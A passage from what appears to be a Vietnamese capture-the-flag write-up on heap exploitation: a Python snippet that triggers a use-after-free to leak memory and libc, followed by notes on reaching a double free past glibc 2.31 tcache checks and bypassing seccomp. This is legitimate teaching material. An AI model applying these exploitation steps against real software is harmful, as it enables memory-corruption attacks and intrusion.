  Hai cái `encode` vs `decode` khá phức tạp, mình không đọc kĩ lắm. Để dùng sau vậy.  

## UAF to Leak  

Viết các hàm cần thiết :  

![hacmao](../img/2020-11-29-08-24-36.png)  

Chúng ta sẽ tạo `secret 1` và bản copy của nó.  

Sau khi tiến hành `edit`, ta sẽ có UAF, dùng bản copy của nó để leak :  

```python
create_secret(1, 0x90, 'abc', 1)            # init chunk
create_secret(2, 0x30, 'abc', 1, 1)         # copy chunk
create_secret(3, 0x30, 'abc', 1, 0)         # <- top chunk for easy work
edit_secret(1, "abc", 0x30, 'abc', 1)
list_secret(2)
```

Để leak libc, ta sẽ cấp phát một vùng nhớ > 0x410 rồi làm tương tự như trên.  

Sau khi leak libc, mình attack lên server thấy cùng offset. Nên đoán là libc 2.31. May quá. 😀 Không chắc ngồi đoán mò lib mất.  

## UAF to Double free  

Double free cũng khá đơn giản. Chúng ta chỉ cần dùng lỗi UAF thôi.  

Tuy nhiên trên libc 2.31 có cơ chế detect được double free. Lúc này khi bị lỗi, chương trình ban đầu có seccomp rules sẽ chặn syscall, để cho dễ dàng thì mình pass bỏ seccomp luôn. Lưu ý điều này không nên làm vì nó gây ra sự xáo trộn cực lớn về các chunk trên heap. 😑  

Đoạn check detect dựa vào struct :  

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```
